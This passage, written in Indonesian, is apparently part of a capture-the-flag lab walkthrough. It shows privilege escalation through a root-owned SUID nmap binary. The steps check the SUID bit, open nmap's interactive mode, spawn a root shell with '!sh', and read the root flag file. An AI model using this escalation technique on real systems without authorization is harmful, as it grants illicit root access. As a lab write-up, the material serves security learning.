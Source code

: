 ❗ Ini menarik karena biasanya `nmap` tidak berada di `/usr/local/bin`. Kita cek apakah dia punya SUID:

```bash
ls -la /usr/local/bin/nmap
```

Output:

```
-rwsr-xr-x 1 root root 123456 Jan 1 2020 /usr/local/bin/nmap
```

➡️ Yup! Huruf `s` di `rws` menunjukkan bahwa **nmap ini dijalankan sebagai root**.

---

## 🧨 3. Gunakan Nmap untuk Dapatkan Root Shell

Jalankan versi interaktif dari Nmap:

```bash
/usr/local/bin/nmap --interactive
```

Akan muncul prompt:

```
nmap>
```

Ketik:

```bash
!sh
```

🎉 BOOM! Sekarang kamu **root shell**!

---

## 🔓 4. Cek Status

```bash
whoami
```

📌 Output:

```
root
```

🚀 Kamu sekarang root! Saatnya ambil flag terakhir.

---

## 🏁 5. Ambil Flag Terakhir

```bash
cat /root/key-3-of-3.txt
```
